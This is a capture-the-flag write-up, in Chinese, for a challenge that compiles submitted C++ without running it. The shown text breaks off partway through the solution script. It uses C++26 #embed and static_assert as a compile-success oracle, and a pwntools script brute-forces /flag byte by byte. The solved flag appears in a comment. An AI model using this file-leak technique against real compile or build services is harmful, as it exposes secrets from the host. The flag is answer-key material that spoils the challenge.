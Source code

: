 ##  Warnde++

这个题目要求你提交一段C++代码，题目会对代码进行编译，但不会运行，也不会输出编译时的输出，只会告诉编译是否成功。目标是读取`/flag`

这个题是玩g++-15新特性的。题干说明了要用C++26特性解题。

稍微搜了以下[C++26有什么新特性](https://www.arong-xu.com/modern-cpp/cpp26)，里面有一个`#embed`很明显是编译期作用的，它的功能是把一段二进制文件作为静态数据嵌入到程序中，很明显是有用的。

我们需要另一个事情编译器对静态数组内容进行判断，稍微调研一下就会找到`static_assert`可以对`constexpr`的内容进行编译期断言。这种做法一次只能判断一个字节是否等于某一位，我们其实需要对flag每一位进行循环爆破（如果追求效率可以二分，但我觉得大可不必）



```py
from pwn import *
from sys import argv

# context.log_level = "debug"
context.arch = "amd64"

TEMPLATE = """
#include <cstdio>

int main() {
    constexpr unsigned char data[] = {
        #embed "/flag"
        , 0
    };
    static_assert (data[%d] == %d, "1 byte check failed");
    for (size_t i = 0; i < sizeof(data); ++i) {
        putchar(data[i]);
    }
    return 0;
}
"""


def reconnect(old_conn=None):
    if old_conn is not None:
        old_conn.close()
    conn = remote("prob07.geekgame.pku.edu.cn", 10007)

    with open("TOKEN.txt", "r") as f:
        TOKEN = f.read().strip().encode()
    conn.sendlineafter(b"token:", TOKEN)
    conn.recvline_contains(b"server :)")
    conn.recvline(keepends=False)

    return conn


# flag{EScAPe_TechnIQUes_uPdatE_witH_timE}
charset = list(range(32, 127))
conn = reconnect()
counter = 0
known_flag = ""
for ind in range(0, 50):
    print(f"[*] Cracking byte index {ind}...")
    for c in charset:
        code = TEMPLATE % (ind, c) + "\nEND\n"

        # reset counter
        counter += 1
        if counter > 380:
            conn = reconnect(conn)
```